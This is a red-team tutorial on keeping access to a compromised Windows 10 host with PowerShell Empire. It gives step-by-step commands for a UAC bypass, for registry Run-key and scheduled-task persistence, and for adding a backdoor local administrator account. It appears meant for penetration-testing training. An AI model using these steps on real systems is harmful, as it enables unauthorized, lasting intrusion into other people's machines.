





## Before You Begin

In order to follow along with the tools and techniques utilized in this document, you will need to use one of the following offensive Linux distributions:

- Kali Linux

- Parrot OS

The following is a list of recommended technical prerequisites that you will need in order to get the most out of this course:

- Familiarity with Linux system administration.

- Familiarity with Windows.

- Functional knowledge of TCP/IP.

- Familiarity with penetration testing concepts and life-cycle.

Note: The techniques and tools utilized in this document were performed on Kali Linux 2021.2 Virtual Machine

## MITRE ATT&CK Persistence Techniques

Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access. Techniques used for persistence include any access, action, or configuration changes that let them maintain their foothold on systems, such as replacing or hijacking legitimate code or adding startup code.

Gaining an initial foothold is not enough, you need to set up and maintain persistent access to your targets.

The techniques outlined under the Persistence tactic provide us with a clear and methodical way of establishing persistence on the target system.

The following is a list of key techniques and sub techniques that we will be exploring:

- Registry Run Keys / Startup Folder

- Scheduled Task/Job

- Local Accounts

## Scenario

Our objective is to establish persistence on our target system after we have obtained an initial foothold. In this case, we will be taking a look at how to establish persistence on a Windows target with Powershell-Empire.

### Persistence with PowerShell Empire

Empire has a variety of methods and options to help you keep access to a host you’ve compromised. They’re broken into four main areas: PowerBreach in-memory/non-reboot surviving backdoors, userland reboot options, elevated (admin) reboot options, and various debugger triggers (think sticky-keys).

To install PowerShell Empire, follow the Installing PowerShell Empire section of part 1, guide 3 in this series (Windows Red Team Exploitation Techniques). If you followed this guide previously and set up a Linux VM with PowerShell Empire, then you can re-use it if it still exists.

### PowerShell Empire Persistence Modules

The following is a list of Empire persistence modules that we will be utilizing in our engagement:

1. Userland persistence – Used to set up reboot persistence for a non-privileged agent (userland).

1. Elevated persistence – Used to set up reboot persistence for an agent with administrative privileges.

1. PowerBreach – This is a series of in-memory PowerShell backdoors that can be used to set up persistence.

The PowerShell Empire modules are part of the framework and are used to segregate and categorize functionality, whereas the PowerShell Empire plugins offer additional functionality that is not required in order for Empire to work.

As explained above, in order to utilize some of the elevated persistence modules, we will need to obtain a high integrity agent with Empire.

### Obtaining a High Integrity Agent with Empire

In terms of Empire terminology, a high integrity agent is an agent with elevated privileges, in order to obtain a high integrity agent, we will need to elevate our privileges. This can be facilitated through the use of various Empire modules, however, the type of privilege escalation technique you use will depend on the version of Windows your target is running.

To obtain an agent on the target Windows 10 system, follow guide 3 of part 1 of this series, Windows Red Team Exploitation Techniques. If you followed this guide previously, created a Windows 10 target VM, and created an agent on it, then you can re-use that VM if it still exists.

In our case, the target is running Windows 10, as a result, we can utilize the Bypass UAC ( Bypass User Access Control) empire module to obtain a high integrity agent.

1. The first step is to determine whether your agent is a high integrity agent, this can be done by interacting with your agent in the Empire client and listing out the agent information. This can be done by running the following command in the Empire client:

        interact <AGENT-ID>/<NAME>
        info

    

    As highlighted in the preceding screenshot the “high_integrity” option for our agent is set to “0”, this means that our agent is not a high integrity agent and we do not have administrative privileges.

1. Given that our target is running Windows 10, we can utilize the “powershell/privesc/bypassuac” empire module to obtain an elevated agent, this can be done by running the following command:

        usemodule powershell/privesc/bypassuac

1. After selecting the module, you will need to set the relevant module options such as the Listener and agent. This can be done by running the following command:

        set Listener htt2p
        set Agent <AGENT-ID>/<NAME>

1. After setting the relevant module options, we can execute the module on the target agent, if successful, we should receive an agent callback from the same target system, however, in this case, it will be a high integrity agent with elevated privileges as highlighted in the following screenshot.

    

    Now that we have obtained a high integrity agent, we can take a look at how to use the various Empire persistence modules.

### Persistence through Windows Registry

The persistence/userland/* modules allow for reboot-persistence from userland (i.e. without needing administrative privileges). If a Listener is specified, then the staging code for an Empire agent is automatically generated and used as the script logic to trigger. If an ExtFile is specified (e.g. if you wanted to generate a PowerBreach backdoor and use that instead), then the file is encoded appropriately and used instead.

The modules are broken up by trigger mechanism, and each one has various storage locations specifiable within it. For userland modules, the storage locations are in the registry (within the HKCU hive), in an alternate-data-stream, or within the Application event log. Full cleanup is available if you specify theCleanup command, which will remove the specified trigger and stored script logic. Note: if the logic is stored in the application event log, this stored script logic won’t be cleared.

In this case, we will take a look at how to use the “powershell/persistence/userland/registry” module on the unprivileged agent. The persistence/userland/* modules allow for reboot-persistence from userland (i.e. without needing administrative privileges).

1. The first step will involve interacting with the unprivileged agent and selecting the userland Registry module, this can be done by running the following commands:

        interact <AGENT-ID>/<NAME>
        usemodule powershell/persistence/userland/registry

1. After selecting the module, we will need to configure the module options such as the Agent, Listener, KeyName and RegPath. This can be done by running the following commands:

        set Listener http
        set Agent <AGENT-ID>/<NAME>
        set RegPath HKCU:\Software\Microsoft\Windows\CurrentVersion\Run
        set KeyName <KEY-NAME>

    

    The registry path we will be adding our persistence stager to will be the Run registry key, Run and RunOnce registry keys cause programs to run each time a user logs on. The data value for a key is a command line no longer than 260 characters. Register programs to run by adding entries of the form `description-string=command line`. You can write multiple entries under a key. If more than one program is registered under any particular key, the order in which those programs run is indeterminate.

1. After configuring the module options, we can execute the module by running the following command in the Empire client:

        execute

1. We can determine whether our registry key was added by running a Windows Registry query command:

        reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run

1. If the module ran successfully, you should see the Registry key we specified in the module options added as shown in the following screenshot.

    

    We should now receive an agent callback from the target system whenever it is rebooted or booted.

### Persistence through Scheduled Tasks

We can also setup persistence on the target system by utilizing the Empire module “powershell/persistence/userland/schtasks”. The persistence/userland/* modules allow for reboot-persistence from userland (i.e. without needing administrative privileges).

1. The first step will involve interacting with the unprivileged agent and selecting the userland Registry module, this can be done by running the following commands:

        interact <AGENT-ID>/<NAME>
        usemodule powershell/persistence/userland/schtasks

1. After selecting the module, we will need to configure the module options such as the Listener, RegPath and DailyTime, this can be done by running the following commands in the Empire client:

        set Listener http
        set Agent <AGENT-ID>/<NAME>
        set RegPath HKCU:\Software\Microsoft\Windows\CurrentVersion\Run
        set DailyTime 09:00

1. After configuring the module options, we can execute the module by running the following command in the Empire client:

        execute

    If successful you should receive output similar to the one shown in the screenshot below.

    

    Note: You can also utilize the persistence/elevated/* modules to allow for reboot-persistence from an elevated context (i.e. with administrative privileges). If a Listener is specified, then the staging code for an Empire agent is automatically generated and used as the script logic to trigger. If an ExtFile is specified (e.g. if you wanted to generate a PowerBreach backdoor and use that instead), then the file is encoded appropriately and used instead.

### Persistence through Creating Local Accounts

Adversaries may create a local account to maintain access to victim systems. Local accounts are those configured by an organization for use by users, remote support, services, or for administration on a single system or service. With a sufficient level of access, the net user /add command can be used to create a local account.

We can add a local user to the Administrative group on the Windows target as a means of maintaining access to the target, this can be done by utilizing the “powershell/persistence/misc/add_netuser” module.

1. The first step will involve interacting with the agent and selecting the ”add_netuser” module, this can be done by running the following commands:

        interact <AGENT-ID>/<NAME>
        usemodule powershell/persistence/misc/add_netuser

1. After selecting the module, we will need to configure the module options such as the ComputerName, Domain, GroupName, Password, and username  this can be done by running the following commands in the Empire client:

        set GroupName Administrators
        set ComputerName <COMPUTER-NAME>
        set Password <PASSWORD>
        set UserName <USERNAME>

1. After configuring the module options, we can execute the module by running the following command in the Empire client:

        execute

1. If successful you should receive output similar to the one shown in the screenshot below.

    

1. We can also confirm that the new user account has been added by running the net user command on the target system as highlighted in the following screenshot.

    

    We can utilize this user account for backdoor access to the target system through legitimate authentication protocols like RDP.

### Persistent Agent Callbacks

Now that we have set up persistence on the target system, whenever the system is rebooted, we should receive an agent call back as shown in the following screenshot.

